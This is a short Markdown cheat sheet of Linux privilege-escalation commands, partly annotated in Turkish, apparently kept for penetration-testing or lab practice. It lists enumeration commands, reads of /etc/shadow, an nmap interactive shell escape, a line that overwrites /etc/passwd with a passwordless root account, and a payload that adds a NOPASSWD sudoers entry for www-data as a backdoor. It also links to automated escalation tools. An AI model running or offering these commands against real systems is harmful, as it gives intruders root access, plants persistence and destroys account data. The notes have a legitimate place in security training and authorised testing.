
# Linux Privilage Escalation Notes

* **Guide**

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

* **General Command**

Kernel version detection & Priv Check:
```
cat /etc/issue
uname -a
cat /proc/version
cat /etc/shadow @Normal kullanıcı göremez
```

Services are Running as Root

```
ps aux | grep root
```


Find Suit & Guid Bit & Writeable Files
```
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
find / -perm -2 ! -type l -ls 2>/dev/null @Yazma yetkisi olan dosyalar
```

Try :)
```
sudo su
sudo -l
```

Edit passwd file 
```
echo root::0:0:root:/root:/bin/bash > /etc/passwd
su
```

Nmap permissions

```
sudo nmap --interactive
!id
!cat /root/proof.txt
```

Network connections

```
netstat -ano
```

Metasploit Exploit Suggester

```
run post/multi/recon/local_exploit_suggester
```

Find something

```
cat config.php | grep db
```

***

## Automated Scripts:

* Linux Priv Checker:

https://www.securitysift.com/download/linuxprivchecker.py

* LinEnum:

https://github.com/rebootuser/LinEnum

* Linux Exploit Suggester:

https://github.com/mzet-/linux-exploit-suggester

* Old Linux Exploit SuggersteR:

https://github.com/PenturaLabs/Linux_Exploit_Suggester

* Linux Post Exploatation:

https://github.com/reider-roque/linpostexp

***

* Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```








